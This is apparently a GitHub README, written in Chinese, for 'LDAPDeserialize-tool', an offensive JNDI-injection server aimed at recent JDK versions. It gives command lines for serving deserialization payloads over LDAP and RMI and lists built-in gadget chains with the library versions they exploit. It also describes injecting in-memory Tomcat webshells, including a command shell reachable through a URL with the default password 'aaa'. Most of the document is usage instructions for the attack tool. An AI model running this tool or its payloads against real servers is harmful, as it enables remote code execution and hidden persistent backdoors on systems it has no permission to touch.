 ## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD （tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami）
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

#### 使用指定反序列化数据

使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

#### 使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)

#### 内存马注入
##### CMD马

![截图](image/Snipaste_2024-08-06_17-10-12.png)

![截图](image/Snipaste_2024-08-06_17-14-38.png)


##### 冰蝎马

![截图](image/image-20240806154150477.png)

![截图](image/Snipaste_2024-08-06_15-43-51.png)

![截图](image/Snipaste_2024-08-06_15-45-48.png)

### TODO
- 增加内存马类型及兼容性

### Star

[![恒星历史图表](https://api.star-history.com/svg?repos=C3P0ooo/LDAPDeserialize-tool&type=Timeline)](https://star-history.com/#C3P0ooo/LDAPDeserialize-tool&Timeline)
